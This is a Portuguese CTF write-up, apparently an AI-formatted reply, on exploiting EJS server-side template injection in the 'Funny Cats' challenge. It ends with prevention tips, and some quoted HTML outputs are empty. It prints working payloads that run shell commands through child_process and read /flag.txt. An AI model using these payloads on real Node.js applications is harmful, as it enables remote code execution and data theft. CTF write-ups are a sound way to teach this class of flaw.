 Opa! Claro, consigo formatar isso de um jeito que fique ainda mais legível e profissional em Markdown, mantendo todo o conteúdo original.

---

# 🛡️ Write-up CTF: Template Injection do Chapéu de Palha Hacker

> *"Esses gatos escondem algo... Descubra o que é!"*

---

## 📌 Contexto Rápido

| Item | Detalhe |
| :---------------------- | :-------------------------------------------------------------------------- |
| 🎯 **Nome do Desafio** | **Funny Cats** |
| 📍 **Local da Flag** | `/flag.txt` |
| 🌐 **URL** | [https://funny-cats.chapeudepalhahacker.club/](https://funny-cats.chapeudepalhahacker.club/) |
| 💡 **Observação Inicial** | Encontra a flag ara pontuar. |

---

## 1️⃣ Introdução à Vulnerabilidade

### 🤔📚 O que é Template Injection?

**Template Injection** é uma vulnerabilidade que ocorre quando a entrada do usuário é injetada diretamente em um template sem o devido tratamento. Isso permite que um atacante execute código malicioso dentro do ambiente do servidor, explorando o sistema de templates utilizado pela aplicação.

Sistemas como **Jinja2**, **Twig**, **Smarty**, **Freemarker**, e **EJS** são amplamente usados em aplicações web para separar lógica de negócio da apresentação. Eles permitem a inserção de variáveis e estruturas de controle (como loops e condicionais) dentro de templates dinâmicos. Quando a entrada do usuário é incorporada diretamente no template sem escape ou validação, um atacante pode abusar da própria sintaxe do motor de templates para manipular o comportamento da aplicação — e, em alguns casos, executar comandos arbitrários no servidor. ⚠️💻

### 💡🔍 Como Funciona?

Imagine um campo de entrada cujo conteúdo é renderizado diretamente por um motor de template. Em EJS, por exemplo, `<%= 7 * 7 %>` renderiza `49`.

Se o conteúdo enviado por um usuário for passado diretamente ao template, um atacante pode tentar algo como:

```ejs
<%= require('child_process').execSync('id').toString() %>
```

Se o ambiente permitir, esse código executa o comando `id` no sistema operacional. Assim, identificar o motor de template e entender sua sintaxe é essencial para explorar a falha. 🚀🔓

---

## 2️⃣ Análise do Desafio e Identificação da Vulnerabilidade

Comecei explorando a aplicação web, buscando interações e pistas no código-fonte. Logo percebi um comentário HTML curioso:

```html
```

A URL acessada era:

```text
gato?name=alfredo
```

Ao alterar o parâmetro para `teste123` (`gato?name=teste123`), o comentário foi atualizado:

```html
```

🚨 **Entrada refletida diretamente em HTML = potencial vulnerabilidade.**

Decidi então testar se a aplicação processava a entrada como parte de um template. Após algumas tentativas com payloads comuns (URL-encoded), utilizei:

```matlab
<%= 2*2 %>
```

O resultado refletido foi:

```html
```

✅ **Vulnerabilidade confirmada!**
A aplicação estava vulnerável a **Template Injection**, e a sintaxe indicava que o motor usado era provavelmente **EJS** (Embedded JavaScript), popular em ambientes Node.js. 🐾🔥

---

## 3️⃣ Exploração da Vulnerabilidade: Rumo à Flag

Com a vulnerabilidade confirmada, o próximo passo foi alcançar uma **Execução Remota de Código (RCE)** para acessar a flag do sistema, que estava armazenada em `/flag.txt`. 🚀📄

### 🔹 Passo 1: Execução Remota de Código (RCE)

#### Payload:

```ejs
<%= this.constructor.constructor("return process")().mainModule.require("child_process").execSync("ls /").toString() %>
```

#### Explicação:

* `<%= ... %>`: Sintaxe do EJS para executar e renderizar o resultado do código. 📝
* `this.constructor.constructor(...)`: Acesso ao construtor global `Function`, permitindo criar e executar funções arbitrárias. 🏗️
* `"return process"`: Retorna o objeto `process`, que contém informações e métodos do ambiente Node.js. 🌐
* `.mainModule.require(...)`: Através de `mainModule`, acessa-se o `require`, permitindo importar módulos internos. 📦
* `"child_process"`: Módulo que permite executar comandos do sistema operacional. 🖥️
* `.execSync("ls /")`: Executa o comando `ls /` de forma síncrona, listando arquivos do diretório raiz. 📂
* `.toString()`: Converte o buffer da saída em string legível. 🔤

#### Resultado:

A resposta refletiu a listagem dos arquivos raiz, incluindo o **flag.txt** — sucesso na obtenção de RCE! 🎉🔓

---

### 🔹 Passo 2: Leitura da Flag

Com a flag localizada, bastava ler seu conteúdo. 📖✨

#### Payload:

```ejs
<%= global.process.mainModule.require('fs').readFileSync('/flag.txt', 'utf8') %>
```

#### Explicação:

* Acessa o módulo `fs` (File System) por meio do objeto global `process`. 🗄️
* `readFileSync('/flag.txt', 'utf8')`: Lê o conteúdo do arquivo de forma síncrona e o interpreta como texto UTF-8. 📜

#### Resultado:

A flag foi exibida diretamente no comentário HTML:

```php-template
```

🏁 **Flag capturada com sucesso!** 🎊🐾

---

## 🧩 4. Lições Aprendidas

### ✔️ Boas Práticas

* **Validação e escape de entrada:** Nunca insira dados do usuário diretamente em templates.
* **Menor privilégio:** Rode o servidor com permissões mínimas.
* **Evite exposição de objetos globais:** Como `require`, `process`, e afins.
* **Utilize ambientes sandboxed:** Sempre que possível.

### 🔐 Como prevenir Template Injection?

| Prática | Descrição |
| :---------------------------------------- | :------------------------------------------------------------------------ |
| 🧼 **Sanitização de entrada** | Escapar caracteres especiais e remover trechos perigosos. |
| 🛑 **Evite lógica dinâmica com input** | Não use diretamente dados do usuário na lógica de template. |
| 🔒 **Restrição do ambiente de execução** | Use sandbox ou limitações no acesso a objetos como `require`, `process`. |
| 🧱 **Use templates seguros** | Motores de template com proteções por padrão são preferíveis. |

---

## 🏁 Conclusão

Esse desafio mostrou como uma simples reflexão de parâmetro pode evoluir para execução de código remoto — tudo devido à falta de tratamento adequado em um motor de template.

🔁 **Resumo da exploração:**

1.  Identifiquei o reflexo no HTML.
2.  Confirmei que era um motor de template (EJS).
3.  Usei payloads para explorar o sistema e capturar a flag.

⚠️ **Lembre-se:** vulnerabilidades como essa podem comprometer um sistema inteiro. Desenvolvedores devem sempre validar inputs, aplicar o princípio de menor privilégio e manter suas dependências atualizadas.

---

🧠 **Desafio vencido!**